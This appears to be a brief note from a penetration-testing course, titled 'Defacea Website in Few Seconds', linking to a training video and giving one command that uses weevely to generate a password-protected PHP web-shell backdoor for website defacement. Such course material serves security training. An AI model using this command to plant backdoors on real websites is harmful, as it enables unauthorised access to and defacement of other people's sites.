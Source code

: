 # 05_Defacea Website in Few Seconds

[Defacea Website in Few Seconds 👉VIDEO &#128279;](https://codered.eccouncil.org/courseVideo/Kali-for-Penetration-Testers?lessonId=f98981fe-ec57-4afe-bb16-9c5c2891a475&finalAssessment=false)

**Command**

- `weevely generate 123 /root/Desktop/backdoor.php`
